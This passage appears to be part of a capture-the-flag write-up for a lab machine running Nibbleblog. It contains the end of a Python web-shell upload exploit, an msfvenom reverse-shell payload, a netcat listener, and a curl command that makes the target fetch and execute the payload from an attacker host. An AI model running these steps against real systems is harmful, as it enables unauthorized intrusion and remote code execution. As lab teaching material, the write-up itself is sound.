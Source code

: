 ```python
                'application/x-php',
                '',
              ),
            })
print('[+] DONE. checking if payload exists ...')
r = s.get(TARGET + '/nibbleblog/content/private/plugins/my_image/image.php', 
          params='c=echo "BUBBA IS HERE";id')
print(r.text)
```

Run this script as follows:

```bash
python3 exploit.py
```

![user1](./nibbles/user1.png)

Nice! Now use it to get a dedicated shell:

```bash
# generate payload
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.27 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
# host payload
sudo python3 -m http.server 80
# setup listener
nc -nvlp 6969
# download & execute payload through web shell
curl -s -G --data-urlencode 'c=wget -O /tmp/bubba.elf http://10.10.14.27/bubba.elf && chmod +x /tmp/bubba.elf && /tmp/bubba.elf' http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

And this returns a shell for `user.txt`:

![user2](./nibbles/user2.png)
